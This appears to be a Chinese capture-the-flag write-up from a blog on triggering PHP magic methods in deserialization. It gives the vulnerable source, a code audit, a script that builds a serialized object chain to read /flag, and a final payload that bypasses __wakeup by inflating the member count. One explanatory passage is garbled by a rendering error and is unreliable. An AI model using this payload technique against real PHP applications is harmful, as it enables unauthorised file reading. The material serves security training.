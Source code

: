 # 原创
：  魔术方法的触发在php反序列化中的应用

# 魔术方法的触发在php反序列化中的应用

**源码：**

```
&lt;?php
show_source(__FILE__);

class CDUTSEC1{
    public $file;
    public $function;

    function __construct($file, $function)
    {
        $this-&gt;file = $file;
        $this-&gt;function = $function;
    }
    function __wakeup()     // Hint：听说你们喜欢绕__wakeup，但是我可听说官方在php7.0.10之后修复了这个bug
    {
        $this-&gt;file = __FILE__;
        $this-&gt;function = 'phpversion';
    }
    function __invoke()
    {
        return file_get_contents($this-&gt;file);
    }
    function __toString()
    {
        return file_get_contents($this-&gt;file);
    }
    function __get($function)
    {
        return $this-&gt;function;
    }
    function __call($a, $b){
        return $this-&gt;function;
    }
}

class CDUTSEC2{
    public $function = 'phpversion';

    function __destruct()
    {
        echo ($this-&gt;function)();   //
    }
}

@unserialize($_GET['payload']);

```

**代码审计：**<br/> 能拿flag的方式只有CDUTSEC1中__invoke和__toString两个魔术方法，触发能够执行file_get_contents($this-&gt;file)。所以只要CDUTSEC1类的file值为’/flag’(当然可能不在当前目录，视题而定)就能拿到flag了。<br/> 两个魔术方法的触发条件:<br/> __invoke:当尝试以调用函数的方式调用一个对象时触发<br/> __toString:一个类被当做字符串时触发。用于一个类被当成字符串时应怎样回应。例如 echo KaTeX parse error: Expected group after '_' at position 37: …字符串，否则会产生错误。 所以_̲_toSring无法触发。审计…function的值再次序列化即可。<br/> 但CDUTSEC1中在触发__invoke之前因为反序列化__weakup先触发并把我们传入的$file覆盖，因此我们需要绕过__weakup。利用的漏洞也很简单，只需要把序列化字符串表示类成员数量的数字改大(大于实际数)即可绕过。本例中，改CDUTSEC2与嵌套的CDUTSEC1都可以。<br/> **解题：**

```
&lt;?php

class CDUTSEC1{
    public $file;
    public $function;
}

class CDUTSEC2{
    public $function = 'phpversion';
}

$tr = new CDUTSEC1();
$tr-&gt;file = '/flag';          
$sr = new CDUTSEC2();
$sr-&gt;function = $tr;
echo serialize($sr);

```

运行代码得到：`O:8:"CDUTSEC2":1:{s:8:"function";O:8:"CDUTSEC1":2:{s:4:"file";s:5:"/flag";s:8:"function";N;}}`，这里我们该大类成员数：`O:8:"CDUTSEC2":1:{s:8:"function";O:8:"CDUTSEC1":3:{s:4:"file";s:5:"/flag";s:8:"function";N;}}`即可。<br/> 测试payload：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210307191400632.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
